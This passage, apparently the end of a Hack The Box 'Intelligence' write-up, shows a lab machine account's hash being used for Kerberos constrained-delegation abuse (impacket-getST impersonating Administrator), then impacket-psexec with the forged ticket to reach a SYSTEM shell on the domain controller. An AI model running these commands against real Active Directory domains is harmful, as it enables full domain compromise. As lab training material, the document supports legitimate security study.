SMB         10.129.95.154   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.95.154   445    DC               [+] intelligence.htb\svc_int$:3c356107d6b589fdfc215e2c3de484b5
```
This user is compromised

### Bloodhound on `svc_int$`


## Domain admin via constrained delegation
```python
faketime -f +7h impacket-getST intelligence.htb/svc_int$ -hashes ':3c356107d6b589fdfc215e2c3de484b5' -spn 'WWW/dc.intelligence.htb' -impersonate Administrator
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@WWW_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
```
I now have a ticket for the administrator

Both winrm and RDP are shut in this instance so ill have to use wmiexec or psexec

```python
export KRB5CCNAME=Administrator@WWW_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
```

```python
faketime -f +7h impacket-psexec -k -no-pass dc.intelligence.htb
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on dc.intelligence.htb.....
[*] Found writable share ADMIN$
[*] Uploading file vmcQqBUK.exe
[*] Opening SVCManager on dc.intelligence.htb.....
[*] Creating service xZWI on dc.intelligence.htb.....
[*] Starting service xZWI.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1879]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled 
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled 
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled 
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled 
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled 
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled 
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled 
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Enabled 
SeAuditPrivilege                          Generate security audits                                           Enabled 
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled 
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled 
SeCreateGlobalPrivilege                   Create global objects                                              Enabled 
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled 
SeTimeZonePrivilege                       Change the time zone                                               Enabled 
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled 
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled 

C:\Windows\system32> 
```
Domain admin!
